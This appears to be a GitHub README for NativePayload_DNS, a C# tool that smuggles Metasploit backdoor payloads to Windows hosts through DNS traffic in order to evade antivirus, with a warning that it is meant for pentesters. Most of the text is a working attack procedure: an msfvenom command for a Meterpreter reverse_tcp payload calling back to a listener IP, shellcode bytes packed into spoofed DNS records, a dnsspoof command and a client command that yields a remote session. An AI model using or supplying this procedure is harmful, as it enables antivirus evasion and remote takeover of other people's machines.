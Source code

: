 [![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg)]()

# NativePayload_DNS
C# code for Backdoor Payloads transfer by DNS Traffic and Bypassing Anti-viruses

Published by Damon Mohammadbagher

Warning: this code Published to explaining Anti-Viruses Vulnerability for Pentesters and Security Researchers

for more information and step by step please Visit these links:

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

Video Published by Damon Mohammadbagher (bbxc9x00x1f)

Bypassing Anti-Viruses with transfer Backdoor Payloads by DNS traffic
Video 1 :https://youtu.be/M4dbqRWRsUk

Bypassing AVs with NativePayload_DNS and Meterpreter_Payload_Detection
Video 2 : https://youtu.be/ngZl4PSfW6o
Video Description: Bypassing AVs with NativePayload_DNS.exe and Detecting Meterpreter Process by Meterpreter_Payload_Detection tool
 
 step 1:
 
 msfvenom C type payload in your kali linux
 
 msfvenom –-platform windows –arch x86_64 –p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 –f c > /root/Desktop/payload.txt
 
copy payloads from payload.txt file to dns.txt like this format:

root@kali:~# cat /root/Desktop/dns.txt

1.1.1.0 "0xfc0x480x830xe40xf00xe80xcc0x000x000x000x410x510x410x500x52.1.com"

1.1.1.1 "0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com"

1.1.1.2 "0x8b0x520x200x480x8b0x720x500x480x0f0xb70x4a0x4a0x4d0x310xc9.1.com"

1.1.1.3 "0x480x310xc00xac0x3c0x610x7c0x020x2c0x200x410xc10xc90x0d0x41.1.com"

step 2: Make Fake DNS server in your kali linux

root@kali:~# dnsspoof -i eth0 -f /root/Desktop/dns.txt

 step 3:
 
 run code in client
 
 syntax: NativePayload_DNS.exe "1.1.1." 34 "192.168.1.50"
 
 finally you can bypass AVs and you have Meterpreter Session
 
 
 for more information and step by step please Visit these links:
 
Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

 
 Related Tool: 
 
 C# code for Backdoor Payloads transfer by IPv6 Address (AAAA) records and DNS Traffic also Bypassing Anti-viruses 
 https://github.com/DamonMohammadbagher/NativePayload_IP6DNS
 
 Related link:
 
 Bypass all anti-viruses by Encrypted Payloads with C#
 https://www.linkedin.com/pulse/bypass-all-anti-viruses-encrypted-payloads-c-damon-mohammadbagher?trk=pulse_spock-articles


 
 
